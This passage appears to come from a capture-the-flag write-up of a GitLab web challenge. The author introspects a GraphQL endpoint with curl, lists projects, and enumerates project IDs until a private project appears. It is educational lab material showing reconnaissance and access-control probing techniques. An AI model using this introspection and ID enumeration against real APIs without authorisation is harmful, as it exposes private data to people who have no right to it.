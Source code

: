 From the GraphiQL IDE, this looks something like:

Let’s probe the endpoints further as we now have three fields, `hint`, `project` and `projects`.

![Untitled](GitLab%20CTF%20CTF-ATHOME%20Web%20Application%20(Container)%20%20b32ad8085fa440688db96d98da5d35b6/Untitled%204.png)

```jsx
ctf-at-home master % curl -i -X GET 'http://graphicle-one.local.thetanuki.io/graphiql' \
-H 'Content-Type: application/json' \
-H 'Accept: application/json' \
--compressed \
--data-binary '{"query":"{\n\t__schema{\n queryType {\n fields{\n name\n }\n }\n }\n}"}'
```

Now we are able to build a GraphQL query to introspect the projects, we have an ID of each which we can see to poke further into each:

```jsx
query {
  projects {
    id
    name
    description
      }
    }
```

![Untitled](GitLab%20CTF%20CTF-ATHOME%20Web%20Application%20(Container)%20%20b32ad8085fa440688db96d98da5d35b6/Untitled%205.png)

I enumerated through each `project` and found no luck from `1-3` so tried `4` and voila!

```jsx
query {
    project(id: 1) {
        id
        name
        description
				private
    }
}
```
